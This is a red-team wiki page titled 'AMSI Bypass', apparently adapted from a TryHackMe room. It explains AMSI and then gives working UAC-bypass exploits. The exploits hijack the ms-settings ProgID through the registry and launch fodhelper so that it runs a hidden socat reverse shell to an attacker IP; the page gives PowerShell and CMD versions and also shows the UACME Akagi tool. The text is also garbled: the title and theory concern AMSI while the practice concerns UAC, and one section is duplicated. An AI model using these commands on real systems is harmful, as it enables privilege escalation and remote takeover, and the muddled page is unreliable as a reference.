 # AMSI Bypass

## Theory

With the release of PowerShell, Microsoft released [AMSI (Anti-Malware Scan Interface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). It is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### How it works ?

AMSI (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. The [CLR (Common Language Runtime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET.  
  
AMSI is fully integrated into the following Windows components:  
    - User Account Control, or UAC  
    - PowerShell  
    - Windows Script Host (wscript and cscript)  
    - JavaScript and VBScript  
    - Office VBA macros  
  
The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.
![](http://hack-army.net/wp-content/uploads/2022/11/35e16d45ce27145fcdf231fdb8dcb35e.png)  
  
This is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below.  
![](http://hack-army.net/wp-content/uploads/2022/11/efca9438e858f0476a4ffd777c36501a.png)



{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID and AutoElevate binary to bypass UAC
we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.  
{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
```bash
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
{% hint style="danger" %}
Detected by Windowds Defender
{% endhint %}
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe
```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```  
{% endtab %}
{% endtabs %}  

### Automated Exploitation
{% tabs %}
{% tab title="UACME" %}
While [UACME](https://github.com/hfiref0x/UACME) provides several tools, we will focus mainly on the one called **Akagi**, which runs the actual UAC bypasses  
If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
C:\tools>UACME-Akagi64.exe 33
```  
{% endtab %}
{% endtabs %}  
### Using ProgID and AutoElevate binary to bypass UAC
we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

## References

{% embed url="https://tryhackme.com/room/runtimedetectionevasion" %}


